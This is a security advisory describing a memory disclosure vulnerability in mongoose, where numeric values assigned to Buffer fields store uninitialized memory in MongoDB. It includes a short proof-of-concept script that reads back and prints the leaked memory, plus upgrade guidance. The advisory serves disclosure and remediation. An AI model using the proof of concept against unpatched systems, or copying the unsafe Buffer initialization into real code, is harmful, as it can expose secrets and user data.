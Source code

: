 ## Overview
A potential memory disclosure vulnerability exists in mongoose.
A `Buffer` field in a MongoDB document can be used to expose sensitive
information such as code, runtime memory and user data into MongoDB.

### Details
Initializing a `Buffer` field in a document with integer `N` creates a `Buffer`
of length `N` with non zero-ed out memory.
**Example:**
```
var x = new Buffer(100); // uninitialized Buffer of length 100
// vs
var x = new Buffer('100'); // initialized Buffer with value of '100'
```
Initializing a MongoDB document field in such manner will dump uninitialized
memory into MongoDB.
The patch wraps `Buffer` field initialization in mongoose by converting a
`number` value `N` to array `[N]`, initializing the `Buffer` with `N` in its
binary form.

#### Proof of concept
```javascript
var mongoose = require('mongoose');
mongoose.connect('mongodb://localhost/bufftest');

// data: Buffer is not uncommon, taken straight from the docs: http://mongoosejs.com/docs/schematypes.html
mongoose.model('Item', new mongoose.Schema({id: String, data: Buffer}));

var Item = mongoose.model('Item');

var sample = new Item();
sample.id = 'item1';

// This will create an uninitialized buffer of size 100
sample.data = 100;
sample.save(function () {
    Item.findOne(function (err, result) {
        // Print out the data (exposed memory)
        console.log(result.data.toString('ascii'))
        mongoose.connection.db.dropDatabase(); // Clean up everything
        process.exit();
    });
});
```

## Remediation
Upgrade `mongoose` to version >= 3.8.39 or >= 4.3.6.

If a direct dependency update is not possible, use [`snyk wizard`](https://snyk.io/docs/using-snyk#wizard) to patch this vulnerability.

## References
- [Github Issue](https://github.com/Automattic/mongoose/issues/3764)
- [Blog: Node Buffer API fix](https://github.com/ChALkeR/notes/blob/master/Lets-fix-Buffer-API.md#previous-materials)
- [Blog: Information about Buffer](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)
